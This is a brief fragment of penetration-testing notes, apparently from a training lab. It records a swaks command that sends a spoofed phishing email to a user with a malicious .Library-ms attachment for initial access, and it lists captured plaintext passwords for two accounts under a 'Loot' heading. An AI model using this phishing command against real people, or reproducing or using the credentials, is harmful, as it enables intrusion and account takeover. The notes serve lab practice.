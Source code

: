 - Access through phishing by running `swaks -t jim@relia.com --from maildmz@relia.com --attach @webdav/config.Library-ms --server 192.168.245.189 --suppress-data`.
# PrivEsc
# Loot
- `relia\jim`: Castello1!![[Pasted image 20240221152809.png]]
- `dmzadmin`: SlimGodhoodMope![[Pasted image 20240221153443.png]]